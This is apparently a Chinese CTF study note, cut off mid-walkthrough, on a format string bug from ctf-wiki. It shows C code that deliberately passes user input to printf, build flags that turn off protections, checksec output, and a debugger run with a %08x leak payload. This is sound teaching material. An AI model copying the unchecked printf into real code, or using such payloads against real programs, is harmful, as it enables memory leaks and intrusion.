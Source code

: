 # pwn

## 格式化字符串

这个题目是ctfwiki上的

c代码如下：
```c

#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```
（突然发现腾讯文档居然还支持代码好强啊

我们编译一下：
```
gcc -m32 -fno-stack-protector -no-pie -o leakMemory  leakMemory.c -g
```
把保护措施都关掉了

```c
 % checksec leakMemory   
[*] '/home/abc/Desktop/pwn/leakMemory/leakMemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


先看一下几个payload

```c
pwndbg> b printf
Breakpoint 1 at 0x8048330
pwndbg> r
Starting program: /home/abc/Desktop/pwn/leakMemory/leakMemory 
%08x.%08x.%08x

Breakpoint 1, __printf (format=0x8048593 "%08x.%08x.%08x.%s\n") at printf.c:28
28printf.c: No such file or directory.
```

在printf处下断点
此时栈上的布局如下
